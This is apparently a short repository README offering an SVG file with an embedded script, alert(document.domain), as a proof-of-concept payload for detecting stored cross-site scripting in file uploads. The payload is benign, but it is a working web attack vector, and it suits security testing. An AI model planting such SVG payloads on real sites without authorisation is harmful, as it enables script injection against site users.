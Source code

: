 # corruptsvgfile
Corrupt SVG File With XSS.  
Simply an image with stored XSS example that produces an alert box with the current domain
======================================================
If this file is uploaded to a server and displays the alert box with the current domain after rendering, You have
discovered a stored XSS
=======================================================

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert(document.domain);
   </script>
</svg>
